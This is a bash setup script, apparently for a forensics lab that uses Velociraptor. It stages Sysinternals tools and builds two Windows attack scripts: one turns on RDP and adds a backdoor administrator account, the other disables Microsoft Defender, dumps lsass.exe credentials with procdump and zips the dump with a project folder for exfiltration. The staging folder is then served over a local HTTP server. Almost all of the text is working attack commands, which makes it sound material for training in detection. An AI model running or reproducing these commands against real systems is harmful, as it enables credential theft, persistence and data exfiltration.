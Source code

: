 ## Preparing launch server

```
#!/bin/bash

echo Setting up lab

mkdir -p stage

# download files for staging
wget -c https://live.sysinternals.com/sdelete64.exe -O stage/sd.exe
wget -c https://live.sysinternals.com/procdump64.exe -O stage/pd.exe
wget -c https://live.sysinternals.com/PsExec64.exe -O stage/PsExec64.exe
wget -c https://www.7-zip.org/a/7z2301-x64.exe -O stage/7z.exe

echo "" > stage/rdp.cmd
echo reg add \"HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f >> stage/rdp.cmd
echo netsh advfirewall firewall set rule group=\"remote desktop\" new enable=Yes >> stage/rdp.cmd
echo net user winsupport P@ssword /add >> stage/rdp.cmd
echo net localgroup Administrators winsupport /add >> stage/rdp.cmd

echo "" > stage/dump_cred.ps1
echo " Set-MpPreference -DisableBehaviorMonitoring  \$TRUE -DisableIOAVProtection  \$TRUE -DisableScriptScanning  \$TRUE -DisableRealtimeMonitoring  \$TRUE -DisableArchiveScanning  \$TRUE -DisableCatchupFullScan   \$TRUE -DisableCatchupQuickScan   \$TRUE -DisableRemovableDriveScanning  \$TRUE -DisableRestorePoint  \$TRUE -DisableScanningMappedNetworkDrivesForFullScan  \$TRUE -DisableBlockAtFirstSeen  \$TRUE -DisableGradualRelease  \$TRUE -DisableRdpParsing \$True " >> stage/dump_cred.ps1
#echo "Set-MpPreference -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisableRealtimeMonitoring $true -DisableArchiveScanning $true -DisableCatchupFullScan $true -DisableCatchupQuickScan $true -DisableRemovableDriveScanning $true -DisableRestorePoint $true -DisableScanningMappedNetworkDrivesForFullScan $true -DisableBlockAtFirstSeen $true -DisableGradualRelease $true -DisableTamperProtection $True -DisableRdpParsing $True" >> stage/dump_cred.ps1
echo "cd ~\\Downloads" >> stage/dump_cred.ps1
echo ".\\pd.exe -accepteula -r -ma lsass.exe c:\\Users\\Public\\1" >> stage/dump_cred.ps1
echo "" >> stage/dump_cred.ps1
echo "Compress-Archive  -Path C:\\Users\\Administrator\\Desktop\\ProjectX,C:\\Users\\Public\\1.dmp -DestinationPath C:\\Users\\Public\\data.zip -Force" >> stage/dump_cred.ps1
echo "Remove-Item c:\\Users\\Public\\1.dmp" >> stage/dump_cred.ps1
echo "dir C:\\Users\\Public" >> stage/dump_cred.ps1


mv projectx.zip  stage/projectx.zip

cd stage
(python3 -m http.server 1314) &
```

# Preparing the Velociraptor server.
